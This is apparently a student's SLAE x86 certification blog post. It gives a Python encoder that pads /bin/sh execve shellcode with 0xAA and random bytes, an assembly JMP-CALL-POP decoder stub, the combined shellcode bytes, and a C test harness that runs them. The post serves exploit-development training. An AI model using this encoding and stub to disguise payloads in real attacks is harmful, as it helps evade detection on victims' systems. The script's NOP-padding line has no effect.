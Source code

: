 ```yaml
---
title:  "SLAE x86 Assignment 4: Custom Encoding Scheme"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 4 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
This assignment requires us to write a custom encoding scheme, accompanied with a decoding stub in order for the shellcode to be executed. So this is my take on this assignment:

- First, a python script will be used to encode the shellcode. Each byte of the shellcode will be appended by 0xAA, followed by a random number.
- The decoder will be written in assembly. This decoder stub will contain our encoded shellcode. Once the shellcode has been decoded, execution will be passed to it.

So let's start with the encoder script! We will first need to extract the ```execve-stack``` shellcode:
```
$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
#SLAE x86 Assignment 4: Custom Encoder Script
#Author: 4p0cryph0n
#Website: https://4p0cryph0n.github.io

#!/usr/bin/python

import sys
import random

execve = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#If length is an odd no. add a nop at the end to make even

if len(bytearray(execve)) % 2 != 0:
	bytearray(execve).append(0x90)

encoded2 = ""

#add 0xaa followed by a random byte after each byte of the shellcode

for x in bytearray(execve):

	encoded2 += '0x'
	encoded2 += '%02x,' % x
	encoded2 += '0x%02x,' % 0xAA + '0x%02x,' % random.randint(1,255)

print encoded2
```
This script will first check whether the length of the shellcode is odd or even, depending upon which it will add a ```NOP``` at the end. This is to help with encoding groups of bytes. Then, the encoding process starts, and is outputted in a format which is supported by nasm. I will manually be adding a byte at the end of this output, which will serve as a marker. This will tell our decoder stub when to stop with the decoding process. This byte will be ```\xde```.

```
$ python encoder.py
0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2,

add \xde at the end
```
Okay so now we have our output. Let's write the decoder stub. The idea is to essentially skip the two bytes added, and eliminate them to arrive at our decoded shellcode:
```nasm
; SLAE Assignment 4: Custom Decoder (Linux/x86)
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text

_start:

	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi +1]
	xor eax, eax
	mov al, 1
	xor ebx, ebx

decode:
	mov bl, byte [esi + eax]
	xor bl, 0xde
	jz short EncodedShellcode
	mov bl, byte [esi + eax + 2]
	mov byte [edi], bl
	inc edi
	add al, 3
	jmp short decode


call_shellcode:

	call decoder
	EncodedShellcode: db 0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2, 0xde
```
The address of our encoded shellcode is first popped into ```esi``` using the ```JMP-CALL-POP``` technique. ```edi``` is loaded with the address of the second byte. A counter is initialized with ```eax```, which will be used to keep track of the closest byte next.

The second byte is then stored in ```ebx```, and the instruction after that runs a check for whether we have reached the end. In that case, we jump and pass execution. Otherwise, we move the value of the next important byte in ```ebx```, which is at ```[esi + eax + 2]```. This is because we have two junk bytes. We move the important byte in place of the second byte, and we increment the counter that keeps track of the important bytes.

We add 3 to the counter that keeps track of the closest byte next, and we continue this process until the end is reached.

Alright! Let's extract this shellcode and test it out. Pay close attention to the ```objdump``` command though:
```
$ objdump -d ./decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xde\x74\x10\x8a\x5c\x06\x02\x88\x1f\x47\x04\x03\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc4\xc0\xaa\xa3\x50\xaa\x6d\x68\xaa\x6c\x2f\xaa\x66\x2f\xaa\xc7\x73\xaa\x74\x68\xaa\xc7\x68\xaa\x88\x2f\xaa\xd1\x62\xaa\x58\x69\xaa\x5e\x6e\xaa\x12\x89\xaa\x65\xe3\xaa\xaf\x50\xaa\xf5\x89\xaa\x9e\xe2\xaa\x25\x53\xaa\x79\x89\xaa\x69\xe1\xaa\x26\xb0\xaa\xd6\x0b\xaa\x60\xcd\xaa\x54\x80\xaa\xc2\xde"
```

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x1d\x5e\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xde\x74\x10\x8a\x5c\x06\x02\x88\x1f\x47\x04\x03\xeb\xed\xe8\xde\xff\xff\xff\x31\xaa\xc4\xc0\xaa\xa3\x50\xaa\x6d\x68\xaa\x6c\x2f\xaa\x66\x2f\xaa\xc7\x73\xaa\x74\x68\xaa\xc7\x68\xaa\x88\x2f\xaa\xd1\x62\xaa\x58\x69\xaa\x5e\x6e\xaa\x12\x89\xaa\x65\xe3\xaa\xaf\x50\xaa\xf5\x89\xaa\x9e\xe2\xaa\x25\x53\xaa\x79\x89\xaa\x69\xe1\xaa\x26\xb0\xaa\xd6\x0b\xaa\x60\xcd\xaa\x54\x80\xaa\xc2\xde";
main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
```
Let's compile and run this:
```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
shellcode.c:6:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    6 | main()
      | ^~~~
kali@kali ~/Desktop/SLAE_Practice/SLAEx86_Assignments/assignment4 $ ./shellcode
Shellcode Length:  112
$
```
And our shell executes!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE - 1534
